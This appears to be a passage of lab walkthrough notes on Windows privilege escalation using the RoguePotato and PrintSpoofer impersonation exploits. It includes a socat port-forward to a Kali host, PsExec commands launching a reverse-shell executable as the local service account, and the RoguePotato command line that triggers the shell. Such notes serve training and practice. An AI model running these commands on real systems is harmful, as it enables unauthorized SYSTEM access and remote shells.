 - <https://github.com/antonioCoco/RoguePotato>
- <https://github.com/antonioCoco/RoguePotato/releases>
- <https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/>

1. On Kali, forward port 135 to port 9999: 

`socat tcp-listen:135,reuseaddr,fork tcp:10.10.178.251:9999`

2. Start a listener and use `PSExec64.exe` as Admin to trigger the reverse shell executable with the permissions of the "local service" account:

```cmd
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

3. Run the Rogue Potato exploit:

```cmd
C:\PrivEsc\RoguePotato.exe -r 10.11.35.147 -e "C:\PrivEsc\reverse.exe" -l 9999
```

### PrintSpoofer

PrintSpoofer is an exploit that targets the Print Spooler service.

- <https://github.com/itm4n/PrintSpoofer>
- <https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/>


- Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

- Start another listener on Kali.
